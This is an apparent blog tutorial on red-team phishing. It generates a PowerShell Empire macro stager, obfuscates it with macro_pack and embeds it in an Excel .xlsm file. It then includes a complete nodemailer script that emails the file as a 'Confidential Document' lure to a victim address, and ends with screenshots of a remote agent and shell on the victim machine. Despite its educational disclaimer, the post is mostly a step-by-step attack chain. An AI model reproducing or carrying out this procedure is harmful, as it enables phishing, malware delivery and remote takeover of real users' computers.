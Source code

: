 ```yaml
---
layout: post
title: Red Teaming - Macros & Phishing
date: 2022-23-01
image: /assets/img/redteam1/1.png
categories: [malware, phishing, nodejs, gmail, starkiller, macros, macropack]
---
```


## Intro

***Only for educational purposes.***
***I am not responsible for any illegal use.***

## Kali


#### Empire

```bash
sudo powershell-empire server
```

![image](/assets/img/redteam1/1.png)

#### StarKiller

```
Default creds -> empireadmin:password123
```

- View Listener

![image](/assets/img/redteam1/2.png)

- Create Stager 

```
windows/macro
```

![image](/assets/img/redteam1/3.png)

- Copy the Macro 

![image](/assets/img/redteam1/4.png)

- Start C# Empire Server

![image](/assets/img/redteam1/5.png)

## Windows

- paste the macro stager to the windows vm
- macro.vba

![image](/assets/img/redteam1/6.png)

#### Macro Pack

Download Here : [macro_pack](https://github.com/sevagas/macro_pack/releases/)

```powershell
.\macro_pack.exe -f C:\Users\dmtrs\Documents\macro.vba -o -G C:\Users\dmtrs\Documents\obs_macro.vba
```

![image](/assets/img/redteam1/7.png)

- the new obfuscated vba

![image](/assets/img/redteam1/8.png)

## Malicious Excel (Manually)

- Create a new blank excel

- Developer -> macros

![image](/assets/img/redteam1/9.png)

![image](/assets/img/redteam1/10.png)

![image](/assets/img/redteam1/11.png)

- Replace the empty function with the obs_macro's contents

![image](/assets/img/redteam1/12.png)

- Save it as xlsm

![image](/assets/img/redteam1/13.png)


###### Next Tasks

- Copy the Company.xlsm to our kali
- Send via email the xlsm using the nodejs nodemailer 

## Kali

- Make sure that the attacker's email has got the lesssecureapps enabled 

- https://myaccount.google.com/lesssecureapps

- filename app.js

```bash
node app.js
```

```javascript
var nodemailer = require('nodemailer');

var mail = nodemailer.createTransport({
    service: 'gmail',
    auth: {
		//your gmail credentials
        user: 'evil.sender@example.com',
        pass: 'simpleExamplePassword'
    }
});

var mailOptions = {
    from: 'evil.sender@example.com', //your evil gmail
    to: 'victim@example.com', // victims gmail
    subject: 'Confidential Document',
    text: 'Please do not share the attached xls',
   
    attachments: [

        {   // file on disk as an attachment
            filename: 'Company.xlsm',
            path: 'Company.xlsm' // stream this file
        }
    ]
    
};

mail.sendMail(mailOptions, function (error, info) {
    if (error) {
        console.log(error);
    } else {
        console.log('Email sent: ' + info.response);
    }
});
```

- Result

Email sended

![image](/assets/img/redteam1/14.png)

## Victims Emails

![image](/assets/img/redteam1/15.png)

- I send it to my self but if you send it to other account, google will notify them that maybe is a phishing email and it will send it to spam

![image](/assets/img/redteam1/16.png)

## Victim Computer

***Security Measures are Disabled***

- Download the file 
- Enable Editing

![image](/assets/img/redteam1/17.png)

- Enable Content

![image](/assets/img/redteam1/18.png)

- Run Macro

![image](/assets/img/redteam1/19.png)

## Agent Created (Kali)

![image](/assets/img/redteam1/20.png)

- File Browser

![image](/assets/img/redteam1/21.png)

- Interact /  Shell Command

![image](/assets/img/redteam1/22.png)

## Virus Total

![image](/assets/img/redteam1/23.png)

## Conclusion

Obviously we could use and combine more obfuscation techniques with better performance. 

Additionally we could not send the file directly but a link for the user to download the file. 

Finally, with the use of various tools such as LuckyStrike we could not put the user in the process of running macros. 

This was a very simple example and I presented it for educational purposes.


***Only for educational purposes.***
***I am not responsible for any illegal use.***






